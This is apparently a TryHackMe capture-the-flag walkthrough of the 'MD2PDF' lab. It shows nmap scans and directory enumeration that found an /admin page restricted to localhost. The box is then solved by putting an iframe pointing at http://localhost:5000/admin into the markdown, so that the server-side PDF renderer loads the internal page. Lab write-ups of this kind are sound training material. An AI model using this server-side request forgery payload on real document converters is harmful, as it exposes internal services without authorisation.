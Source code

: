 # THM - MD2PDF

#### Ip: 10.10.83.71
#### Name: MD2PDF
#### Rating: Easy

----------------------------------------------------------------------

![md2pdf.png](../assets/md2pdf_assets/md2pdf.png)

```text
Hello Hacker!

TopTierConversions LTD is proud to announce its latest and greatest product launch: MD2PDF.

This easy-to-use utility converts markdown files to PDF and is totally secure! Right...?
```


I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/MD2PDF]
└─$ sudo nmap -p-  --min-rate 10000 10.10.83.71
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-16 13:59 CDT
Nmap scan report for 10.10.83.71
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds

```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/MD2PDF]
└─$ sudo nmap -sC -sV 10.10.83.71 -p 22,80                     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-16 14:00 CDT
WARNING: Service 10.10.83.71:80 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for 10.10.83.71
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6ee150ba8724c987f1b4433fe2fa0256 (RSA)
|   256 8ec25b6ab040f4627471f6b6a1043497 (ECDSA)
|_  256 f450193371afa8b98faa006a7c1645b0 (ED25519)
80/tcp open  rtsp
|_http-title: MD2PDF
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2660
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <meta
|     name="viewport"
|     content="width=device-width, initial-scale=1, shrink-to-fit=no"
|     <link
|     rel="stylesheet"
|     href="./static/codemirror.min.css"/>
|     <link
|     rel="stylesheet"
|     href="./static/bootstrap.min.css"/>
|     <title>MD2PDF</title>
|     </head>
|     <body>
|     <!-- Navigation -->
|     <nav class="navbar navbar-expand-md navbar-dark bg-dark">
|     <div class="container">
|     class="navbar-brand" href="/"><span class="">MD2PDF</span></a>
|     </div>
|     </nav>
|     <!-- Page Content -->
|     <div class="container">
|     <div class="">
|     <div class="card mt-4">
|     <textarea class="form-control" name="md" id="md"></textarea>
|     </div>
|     <div class="mt-3
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|   RTSPRequest: 
|     RTSP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.93%I=7%D=8/16%Time=64DD1CB9%P=aarch64-unknown-linux-gnu%
SF:r(GetRequest,AB5,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\x20text/html;
SF:\x20charset=utf-8\r\nContent-Length:\x202660\r\n\r\n<!DOCTYPE\x20html>\
SF:n<html\x20lang=\"en\">\n\x20\x20<head>\n\x20\x20\x20\x20<meta\x20charse
SF:t=\"utf-8\"\x20/>\n\x20\x20\x20\x20<meta\n\x20\x20\x20\x20\x20\x20name=
SF:\"viewport\"\n\x20\x20\x20\x20\x20\x20content=\"width=device-width,\x20
SF:initial-scale=1,\x20shrink-to-fit=no\"\n\x20\x20\x20\x20/>\n\n\x20\x20\
SF:x20\x20<link\n\x20\x20\x20\x20\x20\x20rel=\"stylesheet\"\n\x20\x20\x20\
SF:x20\x20\x20href=\"\./static/codemirror\.min\.css\"/>\n\n\x20\x20\x20\x2
SF:0<link\n\x20\x20\x20\x20\x20\x20rel=\"stylesheet\"\n\x20\x20\x20\x20\x2
SF:0\x20href=\"\./static/bootstrap\.min\.css\"/>\n\n\x20\x20\x20\x20\n\x20
SF:\x20\x20\x20<title>MD2PDF</title>\n\x20\x20</head>\n\n\x20\x20<body>\n\
SF:x20\x20\x20\x20<!--\x20Navigation\x20-->\n\x20\x20\x20\x20<nav\x20class
SF:=\"navbar\x20navbar-expand-md\x20navbar-dark\x20bg-dark\">\n\x20\x20\x2
SF:0\x20\x20\x20<div\x20class=\"container\">\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20<a\x20class=\"navbar-brand\"\x20href=\"/\"><span\x20class=\"\">MD2P
SF:DF</span></a>\n\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x20\x20</nav>\n
SF:\n\x20\x20\x20\x20<!--\x20Page\x20Content\x20-->\n\x20\x20\x20\x20<div\
SF:x20class=\"container\">\n\x20\x20\x20\x20\x20\x20<div\x20class=\"\">\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20<div\x20class=\"card\x20mt-4\">\n\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20<textarea\x20class=\"form-control\"\x2
SF:0name=\"md\"\x20id=\"md\"></textarea>\n\x20\x20\x20\x20\x20\x20\x20\x20
SF:</div>\n\n\x20\x20\x20\x20\x20\x20\x20\x20<div\x20class=\"mt-3\x20")%r(
SF:HTTPOptions,69,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\x20text/html;\x
SF:20charset=utf-8\r\nAllow:\x20OPTIONS,\x20GET,\x20HEAD\r\nContent-Length
SF::\x200\r\n\r\n")%r(RTSPRequest,69,"RTSP/1\.0\x20200\x20OK\r\nContent-Ty
SF:pe:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS,\x20GET,\x20HEA
SF:D\r\nContent-Length:\x200\r\n\r\n")%r(FourOhFourRequest,13F,"HTTP/1\.0\
SF:x20404\x20NOT\x20FOUND\r\nContent-Type:\x20text/html;\x20charset=utf-8\
SF:r\nContent-Length:\x20232\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3
SF:C//DTD\x20HTML\x203\.2\x20Final//EN\">\n<title>404\x20Not\x20Found</tit
SF:le>\n<h1>Not\x20Found</h1>\n<p>The\x20requested\x20URL\x20was\x20not\x2
SF:0found\x20on\x20the\x20server\.\x20If\x20you\x20entered\x20the\x20URL\x
SF:20manually\x20please\x20check\x20your\x20spelling\x20and\x20try\x20agai
SF:n\.</p>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.12 seconds
```

Lets use Feroxbuster to scan for any directories we can find:

![ferox.png](../assets/md2pdf_assets/ferox.png)

Cool, looks like there's an `/admin` directory.

Navigating to the page we get an access denied/ forbidden error. But more importantly, the error message is really verbose:

![local.png](../assets/md2pdf_assets/local.png)

Looks like we can only access the directory from localhost:5000

Lets try using an `iframe` to access this directory. iframes essentally allow us to display or embed other documents inside of html code. We can try to access the directory with:

```text
 <iframe src="http://localhost:5000/admin">
 </iframe>
```

![iframe.png](../assets/md2pdf_assets/iframe.png)

Cool, that worked!

![flag.png](../assets/md2pdf_assets/flag.png)

Thanks for following along!

-Ryan

-------------------------------------------

